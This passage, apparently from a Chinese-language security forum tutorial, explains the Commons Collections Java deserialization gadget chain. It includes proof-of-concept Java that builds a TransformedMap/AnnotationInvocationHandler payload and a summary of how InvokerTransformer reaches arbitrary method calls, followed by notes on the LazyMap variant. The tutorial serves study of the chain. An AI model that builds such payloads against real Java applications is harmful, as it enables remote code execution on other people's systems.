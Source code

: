 ```java

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);

        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        Object o = cls.newInstance(Target.class,transformedMap);

        serialize(o);
        unserialize("ser.bin");

    }
}
```

‍

我们来回顾一下这条链子，从正向调过去

```java
反序列化#readObject->
    AnnotationInvocationHandler#readObject(存在setValue)
        MapEntry#setValue(存在checkSetValue)
            transformedMap#checkSetValue(存在transform)
                InvokerTransformer.transform(就可以调用任意方法执行任意操作)
                                                    ![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2cdf3e854d83deeaeb2b06783001c5f2e46592b7.png)
```

‍

‍

### `LazyMap`

‍

在调用`transform` 方法中，`LazyMap#get()`也调用了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-7ed446e0d7a10386090f45cc322e13d446cdcd7d.png)

但这里存在个条件

1. key要为空

然后就会调用`factory`的`transform`，那`factory`咋来的呢？

可以看看他的静态方法和构造器

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e8ec3057ce81e1f5043b017dc3b989c446755e62.png)

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-daec92e1665000d6514f5ca4e50cebd369292401.png)
